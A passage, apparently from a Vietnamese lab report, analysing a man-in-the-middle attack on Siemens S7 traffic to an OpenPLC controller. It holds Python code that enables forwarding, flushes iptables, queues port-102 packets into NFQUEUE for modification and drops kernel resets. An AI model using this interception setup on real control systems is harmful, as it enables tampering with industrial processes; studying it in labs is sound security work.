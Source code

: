 \documentclass[../main.tex]{subfiles}
\begin{document}
Kiểm tra debugger của OpenPLC Editor cũng cho thấy thực tế máy đang chạy giao động quanh mốc 2000


\subsubsection{Phân tích tấn công}


Phần khó nhất của cuộc tấn công này là làm sao sửa đổi gói tin rồi chuyển tiếp lại được. Để đảm bảo tốc độ, ở đây sử dụng phương pháp ARP Spoofing bằng Bettercap để redirect gói tin đến máy Attacker, tại đây, gói tin sẽ được đẩy vào NFQUEUE để Python app gọi lên xử lý thay vì để OS Kernel tự động forward gói tin đi. 


\textit{Một phần vì Bettercap chỉ cung cấp khả năng chỉnh sửa gói tin khi intercept bằng Javascript mà ngôn ngữ này lại không phù hợp để viết bộ S7 Parser nên mới phải làm cách này}


\begin{verbatim}
# 1. Bật IP Forwarding
subprocess.run("sysctl -w net.ipv4.ip_forward=1 > /dev/null", shell=True)

# 2. Tắt RP Filter (Tránh rớt gói tin chiều về từ Router)
# Tránh kernel tự động drop gói tin lạ -> Cho phép gói tin từ PLC về được phép qua
subprocess.run("sysctl -w net.ipv4.conf.all.rp_filter=0 > /dev/null", shell=True)
subprocess.run("sysctl -w net.ipv4.conf.default.rp_filter=0 > /dev/null", shell=True)
subprocess.run(f"sysctl -w net.ipv4.conf.{INTERFACE}.rp_filter=0 > /dev/null", shell=True)

# 3. Thêm Route tới dải PLC thông qua Gateway thật
# Không có dòng này sẽ gây lỗi mất kết nối ngay lập tức trên HMI khi nó gửi yêu
# cầu read var tới PLC
print(f"[*] Thêm tuyến đường tới {PLC_NET} qua {GATEWAY}...")
subprocess.run(f"route add -net {PLC_NET} gw {GATEWAY} 2>/dev/null", shell=True)

# 4. Cấu hình Iptables
print("[*] Đang thiết lập Iptables NFQUEUE...")
subprocess.run("iptables -F", shell=True)               # Xóa sạch filter table
subprocess.run("iptables -t mangle -F", shell=True)      # Xóa sạch mangle table
subprocess.run("iptables -P FORWARD ACCEPT", shell=True) # Đảm bảo forward không bị chặn

# Bẫy traffic S7 (Port 102) vào Queue
# Để thay vì Kernel tự động drop gói tin, python app sẽ xử lý gói tin và chuyển tiếp lại
subprocess.run(f"iptables -t mangle -A FORWARD -p tcp --dport 102 -j NFQUEUE --queue-num {QUEUE_NUM}", shell=True)
subprocess.run(f"iptables -t mangle -A FORWARD -p tcp --sport 102 -j NFQUEUE --queue-num {QUEUE_NUM}", shell=True)

# Chặn gói RST tự phát từ Kernel (Tránh Disconnected)
# Kernel sẽ tự gửi RST (reset connection) nếu nhận gói từ port nó không biết
subprocess.run("iptables -I OUTPUT -p tcp --tcp-flags RST RST -j DROP", shell=True)
\end{verbatim}
\end{document}
